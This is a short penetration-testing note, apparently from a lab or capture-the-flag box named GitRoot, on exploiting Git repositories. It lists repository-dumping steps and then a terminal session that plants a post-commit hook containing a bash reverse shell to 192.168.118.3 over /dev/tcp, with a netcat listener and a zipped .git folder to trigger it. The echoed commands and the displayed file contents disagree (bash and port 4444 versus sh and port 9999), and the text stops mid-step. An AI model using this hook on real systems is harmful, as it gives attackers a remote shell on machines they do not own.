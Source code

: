 ```yaml
---
tags:
  - Exploitation
  - FileTypesAndData
  - FileTypesandData
---
```


# Guide

1. If a Git user is found and Git is installed, try `git log -p`
2. Use [GitDumper](https://github.com/internetwache/GitTools/tree/master/Dumper) to extract a repository
	1. View the largest file first
	2. Search commits messages
# Exploiting Post-Commit

1. Create a post-commit file with a bash reverse shell

```
beth@GitRoot:~$ cd ~
beth@GitRoot:~$ mkdir -p .git/hooks && cd .git/hooks
beth@GitRoot:~/.git/hooks$ echo '#!/bin/bash' > post-commit
beth@GitRoot:~/.git/hooks$ echo '/usr/bin/bash -i >& /dev/tcp/192.168.118.3/4444 0>&1' >> post-commit
beth@GitRoot:~/.git/hooks$ cat post-commit
#!/bin/sh
/usr/bin/sh -i >& /dev/tcp/192.168.118.3/9999 0>&1
beth@GitRoot:~/.git/hooks$ chmod 777 post-commit
beth@GitRoot:~/.git/hooks$
```
2. Start a netcat listener on port 4444. 
3. Compress the .git/ contents into a zip file as requested and copy it to the directory which is being uncompressed and committed:
